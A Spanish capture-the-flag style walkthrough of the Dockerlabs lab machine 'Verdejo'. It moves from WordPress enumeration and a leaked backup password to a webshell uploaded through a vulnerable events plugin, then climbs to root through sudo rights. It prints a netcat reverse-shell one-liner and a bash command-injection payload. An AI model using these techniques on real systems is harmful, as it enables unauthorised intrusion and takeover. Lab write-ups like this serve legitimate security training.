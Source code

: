 
Hola otra vez, vamos a resolver otra máquina de [Dockerlabs](https://dockerlabs.es/#/), en este caso la máquina se llama Verdejo y está incluida en la categoría fácil de Dockerlabs de [El Pingüino de Mario](https://www.youtube.com/channel/UCGLfzfKRUsV6BzkrF1kJGsg).

![alt text](images/image.png)

---------------------------------------------------------------------------------------------------------------------------------------------------

Sin más que añadir vamos a ello, como siempre empezaremos por descargar la máquina y realizar su instalación, recordad que funcionan mediante docker por lo que estaremos creando un contenedor en nuestra máquina local en el que se almacenará la máquina víctima.

![alt text](images/image-1.png)

Empezaremos realizando un ping a la máquina para verificar su correcto funcionamiento, al hacerlo vemos que tiene un TTL de 64, lo que significa que la máquina objetivo usa un sistema operativo Linux.

![alt text](images/image-2.png)

Como vemos, la máquina funciona correctamente y podemos empezar con el proceso de enumeración de la misma, vamos a ello.

# Enumeración

Lo primero que haremos para enumerar esta máquina será realizar un escaneo básico de puertos para identificar cuáles están abiertos.

```sudo nmap -p- --min-rate 5000 172.18.0.2 -Pn -n -oN escaneo```

![alt text](images/image-3.png)

Sólo tenemos disponible el puerto 80 haciendo referencia a un servicio web, vamos a lanzar un escaneo más exhaustivo a este puerto en concreto para tratar de enumerar las versiones y lanzar unos scripts básicos de reconocimiento.

``sudo nmap -p 80 -sCV 172.18.0.2 -Pn -n -oN escaneoSC``

![alt text](images/image-4.png)

En este output podemos ver que dentro del puerto 80 encontraremos un Wordpress. Vamos a echarle un ojo.

![alt text](images/image-5.png)

Nada demasiado interesante por aquí, vamos a fuzzear en busca de directorios y archivos que no estén visibles en un primer contacto.

![alt text](images/image-6.png)

Gracias a este escaneo encontramos el panel de login de Wordpress, vamos a usar WPscan para tratar de enumerar los usuarios disponibles.

![alt text](images/image-7.png)

![alt text](images/image-8.png)

Parece que este escaneo encuentra dos usuarios que existen dentro del sistema, vamos a probarlos en el panel de login ya que Wordpress nos permite confirmar la existencia de los usuarios al tratar de iniciar sesión diciéndonos si existen o no.

![alt text](images/image-9.png)

![alt text](images/image-10.png)

Genial, confirmamos la existencia de ambos usuarios gracias a esta funcionalidad. Lanzamos un ataque de fuerza bruta al panel de login con hydra pero no da los resultados esperados por lo que tendremos que seguir enumerando.

Volviendo al fuzzeo que realizamos previamente vemos que se encontró un directorio llamado backups, vamos a ver qué encontramos en este.

![alt text](images/image-11.png)

Parece que hay un archivo comprimido, vamos a descargarlo a nuestra máquina local para ver su contenido.

![alt text](images/image-12.png)

Tenemos una contraseña que posiblemente sea válida para el usuario developer, vamos a tratar de usarla para hacer login en el panel de Wordpress.

![alt text](images/image-13.png)

Genial, conseguimos entrar con la contraseña encontrada, vamos a buscar la forma de escalar esto para conseguir un primer acceso al sistema.

# Explotación

Dando una vuelta por el dashboard nos encontramos con la pestaña de plugins y uno en concreto llama nuestra atención, además podemos ver su versión. Vale la pena investigar un poco acerca del mismo.

![alt text](images/image-14.png)

El plugin en concreto es Modern Events Calendar Lite y vamos a investigar un poco acerca del mismo ya que el escaneo con WPscan nos avisaba de que el mismo estaba desactualizado.

![alt text](images/image-15.png)

Bien, parece que esta versión en concreto permite la subida de archivos en PHP ya que el mismo no valida los archivos que se suben y podríamos subir una webshell sin que nada nos detuviese, vamos a intentar explotar esta vulnerabilidad para obtener nuestro acceso al sistema.

![alt text](images/image-16.png)

![alt text](images/image-18.png)

Muy bien, hemos conseguido explotar la vulnerabilidad y hemos subido una webshell en la ruta que se nos indica, vamos a acceder a ella para tratar de enviar la conexión a nuestra máquina atacante y de esta forma obtener una conexión más estable y cómoda.

![alt text](images/image-19.png)

Nos ponemos en escucha en nuestra máquina atacante y estamos listos para enviar la conexión.

``rm /tmp/f;mkfifo /tmp/f;cat /tmp/f|/bin/bash -i 2>&1|nc IP PUERTO >/tmp/f``

![alt text](images/image-20.png)

Probamos varios payloads y el último de ellos funciona correctamente otorgándonos una shell directamente en nuestra máquina atacante permitiendo movernos de una forma mucho más cómoda.

![alt text](images/image-21.png)

# Post-Explotación

Una vez dentro de la máquina listamos los usuarios que están disponibles en el directorio home ya que son los que nos interesan para aumentar nuestros privilegios con el objetivo de lograr convertirnos en root. Probamos la contraseña que encontramos previamente con ambos por si diera la casualidad de que se reutilizasen las credenciales, no parece ser el caso.

![alt text](images/image-22.png)

Listamos nuestros permisos subo y parece que podemos usar el comando sind como el usuario rafa, vamos a investigar para saber cómo usar esto a nuestro favor para elevar privilegios.

![alt text](images/image-23.png)

![alt text](images/image-24.png)

Eso es, somos el usuario rafa y podemos enumerar de nuevo en busca de permisos que nos permitan seguir elevanto los privilegios.

![alt text](images/image-25.png)

El usuario rafa puede usar sudo como el usuario ruben para ejecutar el binario debugfs, volvamos a investigar para seguir escalando.

![alt text](images/image-26.png)

![alt text](images/image-27.png)

¡Bien! Conseguimos convertirnos en el usuario ruben, vamos a repetir de nuevo el proceso anterior.

![alt text](images/image-28.png)

Este usuario en concreto puede ejecutar un script que se encuentra en el directorio /opt, comprobamos que no tenemos permisos de escritura dentro del mismo por lo que tendremos que abusar de esto ejecutando el script tal y como está. Vamos a hacer una investigación para saber cómo podríamos hacer esto.

![alt text](images/image-29.png)

Tras una batalla contra el script y con la ayuda de la IA para comprender el mismo llego a la conclusión de que la forma de explotar esto sería comenzando la definición de un array en el que se incluya como contenido $(/bin/bash>&2) para ejecutar una shell y enviar la salida de error a la salida estándar para luego cerrar la definición de este array y añadir el número que necsitamos para que el script no genere un error de sintaxis inmediato, lo cual permitirá que nuestra shell se mantenga activa. 

Después de este episodio de combate para escalar privilegios logramos converirnos en root y obtenemos el control total sobre el sistema pudiendo dar por completada la máquina. Espero que os haya gustado mucho y nos vemos en la siguiente. :)








